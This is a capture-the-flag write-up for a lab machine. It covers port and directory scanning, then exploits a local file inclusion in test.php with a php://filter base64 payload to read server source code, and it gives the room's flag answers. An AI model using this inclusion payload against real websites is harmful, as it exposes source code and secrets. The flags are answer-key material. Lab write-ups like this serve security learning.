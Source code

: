 <h2>Recon</h2>

<h3>PortScanning</h3>

>command: sudo nmap -A -T4 -p- -v

```
```
We have 2 ports opened. Open the web page (running on port 80) on any browser of your choice

![image](https://user-images.githubusercontent.com/67879936/222671044-e6c67ffa-2728-4bad-90c0-66d14c6fd72e.png)

Answering the Questions that were asked

_#Getting a shell_

1. Looking at the support email address (support@mafialive.thm), you will observe that it clearly shows another hostname. So, all we need is to add the hostname to our /etc/hosts file alongside the IP address of the machine.

command used: ```nano /etc/hosts```

I guess this answered our first question.


2. Find Flag 1

Going over to the domain name we added to our /etc/hosts file, that got our first flag.

![image](https://user-images.githubusercontent.com/67879936/222671788-cc86e35f-4408-4f1e-aa5d-24ec757f027f.png)

flag: ``` thm{f0und_th3_r1ght_h0st_n4m3} ```


3. Look for a page under development
To answer this question all you have to do is run gobuster
>command used: gobuster dir -u mafialive.thm -w /usr/share/dirb/wordlists/common.txt -t 16 -x php,txt,html,zip

```
┌──(bl4ck4non㉿bl4ck4non)-[~]
└─$ gobuster dir -u mafialive.thm -w /usr/share/dirb/wordlists/common.txt -t 16 -x php,txt,html,zip
===============================================================
Gobuster v3.4
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://mafialive.thm
[+] Method:                  GET
[+] Threads:                 16
[+] Wordlist:                /usr/share/dirb/wordlists/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.4
[+] Extensions:              php,txt,html,zip
[+] Timeout:                 10s
===============================================================
2023/03/03 09:37:04 Starting gobuster in directory enumeration mode
===============================================================
/index.html           (Status: 200) [Size: 59]
/index.html           (Status: 200) [Size: 59]
/robots.txt           (Status: 200) [Size: 34]
/robots.txt           (Status: 200) [Size: 34]
/server-status        (Status: 403) [Size: 278]
/test.php             (Status: 200) [Size: 286]
Progress: 23050 / 23075 (99.89%)
===============================================================
2023/03/03 09:42:34 Finished
===============================================================
```
The scan above reveals robots.txt and /test.php. And Robots.txt disallows test.php.

Going over to /test.php

![image](https://user-images.githubusercontent.com/67879936/222672372-7b9bfeb4-ec49-493a-a3ac-5167abf0d7c7.png)

Clicking on the button reveals that test.php is under development

![image](https://user-images.githubusercontent.com/67879936/222672470-3a52bd03-bf7a-41cd-ade3-912715640e66.png)

I guess this answers our third question



4. Find flag 2

The button on the test.php page is revealing this url

http://mafialive.thm/test.php?view=/var/www/html/development_testing/mrrobot.php

With this url displayed I think we got oursleves an LFI(Local File Inclusion)

To be able to read the source code we can use a PHP wrapper filter. In this case we will use the one that encodes the content in base64

If you want to read more on PHP wrapper filter you can use this link: [PayloadsAllTheThings — Wrapper php://filter](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion#wrapper-phpfilter)

Here is how we can actually use it for our host

command url: http://mafialive.thm/test.php?view=php://filter/convert.base64-encode/resource=/var/www/html/development_testing/mrrobot.php

Now, using the PHP wrapper filter that encodes content in base64

![image](https://user-images.githubusercontent.com/67879936/222673029-4588c9ae-66c2-4dcc-8050-efb8646b623d.png)

We got a base64 encoded text, we can go ahead to decode it to confirm if it is still the same page

![image](https://user-images.githubusercontent.com/67879936/222673213-554175cb-8a9a-4c8c-8135-9f15f58869cc.png)

>command: echo “PD9waHAgZWNobyAnQ29udHJvbCBpcyBhbiBpbGx1c2lvbic7ID8+Cg==” | base64 — decode

Now, lets try this on /test.php (the one we tried earlier was on mrrobot.php)

url: http://mafialive.thm/test.php?view=php://filter/convert.base64-encode/resource=/var/www/html/development_testing/test.php

![image](https://user-images.githubusercontent.com/67879936/222673661-fbea35e1-6564-4b18-9c07-7519e6b95b4c.png)

Well, we got ourselves another base64 encoded text. Let’s try decoding this

>command: echo “base64” | base64 — decode

Decoding the text we found this



Flag2:```thm{explo1t1ng_lf1}```























